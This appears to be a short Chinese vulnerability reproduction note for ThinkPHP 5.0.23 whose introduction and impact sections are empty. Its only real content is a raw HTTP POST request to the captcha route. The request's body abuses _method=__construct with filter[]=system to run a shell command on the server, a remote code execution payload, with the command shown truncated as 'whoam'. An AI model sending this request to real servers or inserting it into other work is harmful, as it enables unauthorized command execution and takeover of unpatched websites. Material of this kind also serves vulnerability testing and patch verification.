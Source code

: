 Thinkphp 5.0.23
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    POST /index.php?s=captcha HTTP/1.1
    Host: yuorip
    Accept-Encoding: gzip, deflate
    Accept: */* Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 72


    _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoam
